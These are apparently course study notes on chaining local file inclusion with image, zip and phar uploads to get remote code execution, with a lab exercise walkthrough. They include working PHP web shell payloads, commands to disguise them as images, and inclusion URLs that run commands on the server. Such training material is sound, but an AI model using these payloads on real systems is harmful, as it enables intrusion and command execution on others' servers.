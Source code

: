 
#  LFI and File Uploads

 >If the vulnerable function has code `Execute` capabilities, then the code within the file we upload will get executed if we include it, regardless of the file extension or file type. For example, we can upload an image file (e.g. `image.jpg`), and store a PHP web shell code within it 'instead of image data', and if we include it through the LFI vulnerability, the PHP code will get executed and we will have remote code execution.
 
 As mentioned in the first section, the following are the functions that allow executing code with file inclusion, any of which would work with this section's attacks:
![[Pasted image 20230305185419.png]]

---
## Image upload
>Image upload is very common in most modern web applications, as uploading images is widely regarded as safe if the upload function is securely coded. However, as discussed earlier, the vulnerability, in this case, is not in the file upload form but the file inclusion functionality.

#### Crafting Malicious Image
First we will create malicious image we can either get any picture and append our code inside of it or give it magic bytes in the beginning to turn it's format to image (e.g. GIF8) is magic byte of GIF files just in case the upload form checks for both the extension and content type as well. We can do so as follows:
```bash
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```
>This file on its own is completely harmless and would not affect normal web applications in the slightest. However, if we combine it with an LFI vulnerability, then we may be able to reach remote code execution.


#### Uploaded File Path
>Once we've uploaded our file, all we need to do is include it through the LFI vulnerability. To include the uploaded file, we need to know the path to our uploaded file. In most cases, especially with images, we would get access to our uploaded file and can get its path from its URL. In our case, if we inspect the source code after uploading the image, we can get its URL:

```html
<img src="/profile_images/shell.gif" class="profile-image" id="profile-image">
```
If we can't see where the image gets uploaded we can try to FUZZ for the uploaded image
With the uploaded file path at hand, all we need to do is to include the uploaded file in the LFI vulnerable function, and the PHP code should get executed, as follows we use lfi to access the .gif file:
![[Pasted image 20230305190330.png]]

## Zip Upload
>We can utilize the [zip](https://www.php.net/manual/en/wrappers.compression.php) wrapper to execute PHP code. However, this wrapper isn't enabled by default, so this method may not always work. To do so, we can start by creating a PHP web shell script and zipping it into a zip archive (named `shell.jpg`), as follows:


```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```

Once we upload the `shell.jpg` archive, we can include it with the `zip` wrapper as (`zip://shell.jpg`), and then refer to any files within it with `#shell.php` (URL encoded). Finally, we can execute commands as we always do with `&cmd=id`, as follows:

![[Pasted image 20230305190624.png]]

---
## Phar Upload
we can use the `phar://` wrapper to achieve a similar result. To do so, we will first write the following PHP script into a `shell.php` file:
```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```
>This script can be compiled into a `phar` file that when called would write a web shell to a `shell.txt` sub-file, which we can interact with. We can compile it into a `phar` file and rename it to `shell.jpg` as follows:


```bash
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```
Now, we should have a phar file called `shell.jpg`. Once we upload it to the web application, we can simply call it with `phar://`
`http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id`
![[Pasted image 20230305190930.png]]

---
## Exercise
**Use any of the techniques covered in this section to gain RCE and read the flag at /**

![[Pasted image 20230305191129.png]]
Download any image 
![[Pasted image 20230305191201.png]]
![[Pasted image 20230305191255.png]]
appending our shell to the image file then upload it
```php
<?php system($_GET["cmd"]); ?>
```
![[Pasted image 20230305191248.png]]

source code reveal image path
![[Pasted image 20230305191410.png]]
try our LFI
`http://157.245.32.224:30109/index.php?language=./profile_images/default.jpg&cmd=id`
![[Pasted image 20230305191545.png]]
then go to the end of the file in view source
![[Pasted image 20230305191602.png]]

### Using GIF
```bash
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```
![[Pasted image 20230305191656.png]]

and then upload it
![[Pasted image 20230305191739.png]]
`http://157.245.32.224:30109/index.php?language=./profile_images/shell.gif&cmd=id`
![[Pasted image 20230305191804.png]]
`view-source:157.245.32.224:30109/index.php?language=./profile_images/shell.gif&cmd=ls%20-la%20/`
![[Pasted image 20230305191921.png]]
![[Pasted image 20230305192010.png]]

---
Tags:
Resources:
[LFI_With_PHPInfo_Assistance.pdf](https://insomniasec.com/cdn-assets/LFI_With_PHPInfo_Assistance.pdf)
[LFI_With_PHPInf]( https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)
